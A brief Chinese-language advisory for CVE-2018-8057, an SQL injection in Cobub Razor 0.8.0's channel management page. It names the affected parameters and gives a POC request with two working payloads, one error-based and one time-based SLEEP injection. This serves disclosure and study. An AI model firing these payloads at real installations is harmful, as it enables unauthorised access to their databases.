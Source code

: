 （CVE-2018-8057）Cobub Razor 0.8.0 存在SQL注入漏洞
==================================================

一、漏洞简介
------------

Cobub Razor
0.8.0存在SQL注入漏洞，"/application/controllers/manage/channel.php"页面的"channel\_name"及"platform"参数过滤不严格导致存在SQL注入漏洞。Cobub
Razor是一个在github上开源的系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/cobub/razor/issues/162)告知作者。

二、漏洞影响
------------

Cobub Razor 0.8.0

三、复现过程
------------

### POC

    > http://www.0-sec.org/index.php?/manage/channel/addchannel  

    > POST data:  

    >  1.channel_name=test" AND (SELECT 1700 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(1700=1700,1))),0x71786a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JQon&platform=1  

    >  2.channel_name=test" AND SLEEP(5)-- NklJ&platform=1
